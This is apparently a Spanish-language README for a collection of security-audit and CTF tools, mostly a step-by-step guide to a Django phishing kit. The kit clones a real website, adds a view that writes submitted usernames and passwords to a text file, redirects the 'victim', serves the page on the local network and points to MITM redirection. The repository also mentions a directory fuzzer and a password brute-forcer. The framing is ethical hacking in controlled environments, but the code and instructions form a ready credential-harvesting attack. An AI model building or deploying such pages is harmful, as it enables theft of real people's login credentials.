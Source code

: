 # Herramientas para el uso en auditorías de seguridad o CTF (Capture the Flag)

## Fuzzing
El fuzzer está diseñado para encontrar directorios o archivos ocultos en páginas web.

## Brute-Force
1. Breaking passwords:
    Para realizar ataques de fuerza bruta de manera local después de obtener y identificar un hash de contraseña.

# Social-Engineering

## Proyecto de Phishing en Django

## Descripción
Este proyecto te permite clonar páginas web y capturar credenciales mediante un formulario. Es ideal para realizar demostraciones o pruebas de seguridad (ethical hacking) en entornos controlados.

## Requisitos
- Conocimientos básicos de Django.
- Habilidad para modificar plantillas HTML.

## Dependencias
- Python
- Django
- Node.js y npm (para formateo de HTML con Prettier)

## Guía de Uso

Esta herramienta requiere que sepas cómo manipular plantillas HTML y entender el flujo básico de una aplicación Django.

### 1. Clonar una página web

Utiliza el script `clonar.py`, ubicado en la raíz del proyecto, para clonar la página web deseada. Este script solicitará la URL del sitio web y almacenará su contenido en la carpeta `templates`.

### 2. Organizar el HTML

El código HTML copiado de una página web puede venir desordenado y difícil de leer. Para mejorar su legibilidad, usa `Prettier` como formateador de código.

- **Instalación de Node.js y npm** (si no los tienes instalados):

    ```bash
    sudo apt install nodejs npm
    ```

- **Instalación de Prettier**:

    ```bash
    npm install -g prettier
    ```

- **Formateo del archivo HTML**:

    Dirígete a la carpeta `templates` y ejecuta el siguiente comando para formatear el archivo `index.html`:

    ```bash
    prettier --write index.html
    ```

    Tras esto, el archivo será más legible y estará listo para su modificación.

### 3. Modificación de la vista `capturar`

En la vista `capturar`, ubicada en la carpeta principal `phishing`, debes modificar los parámetros según los nombres de los inputs del formulario HTML que has clonado.

- Código de ejemplo para la vista `capturar`:

    ```python
    def capturar(request):
        if request.method == 'POST':
            username = request.POST['{MODIFICA}']  # Nombre del input para el usuario
            password = request.POST['{MODIFICA}']  # Nombre del input para la contraseña
            with open('credenciales.txt', 'a') as data:  # Abre el archivo para agregar credenciales
                data.write(f"[+]Usuario = {username} : [+]Contraseña = {password}\n")
            return HttpResponseRedirect('{URL DONDE DESEES REDIRIGIR A LA VÍCTIMA}')
    ```

    **Nota**: Asegúrate de modificar `{MODIFICA}` con el nombre exacto del atributo `name` de los inputs en tu HTML.

### 4. Modificar el archivo `index.html`

Dentro de la plantilla HTML clonado, debes hacer los siguientes ajustes:

1. **Cambiar la acción del formulario**:

    Localiza la etiqueta `<form>` y ajusta el atributo `action` para que apunte a la URL de la vista `capturar` en Django.

    - *Ejemplo*:

    ```html
    <form action="{% url 'capturar' %}" method="POST">
    ```

2. **Agregar el CSRF token**:

    Asegúrate de incluir el token CSRF de Django para que el formulario sea válido.

    - *Ejemplo*:

    ```html
    <form action="{% url 'capturar' %}" method="POST">
        {% csrf_token %}
    ```

3. **Actualizar los `name` de los inputs**:

    Cambia el valor del atributo `name` en cada input para que coincida con los nombres que has configurado en la vista `capturar`.

    - *Ejemplo*:

    ```html
    <input type="text" name="username" placeholder="Usuario">
    <input type="password" name="password" placeholder="Contraseña">
    ```

    O ajusta la vista para coincidir con los nombres existentes de los inputs en tu formulario.

### 5. Modificar el archivo `settings.py`

Para poder compartir el proyecto en una red local y ejecutar el servidor, debes agregar la IP de tu red local en la configuración de `ALLOWED_HOSTS` dentro de `settings.py`.

1. Abre `settings.py` y busca la variable `ALLOWED_HOSTS`.
   
2. Agrega la dirección IP de tu red local, por ejemplo:

    ```python
    ALLOWED_HOSTS = ['192.168.1.100']  # Reemplaza con tu IP local
    ```

3. Luego, ejecuta el servidor de Django con:

    ```bash
    python manage.py runserver 0.0.0.0:8000
    ```

    Esto permitirá acceder al proyecto desde otros dispositivos en la misma red local.

### Nota sobre redireccionamientos

Puedes redirigir a la víctima solo si estás ejecutando un ataque de Man-in-the-Middle (MITM), lo cual permite interceptar el tráfico de la víctima y redirigirla a tu página clonada.

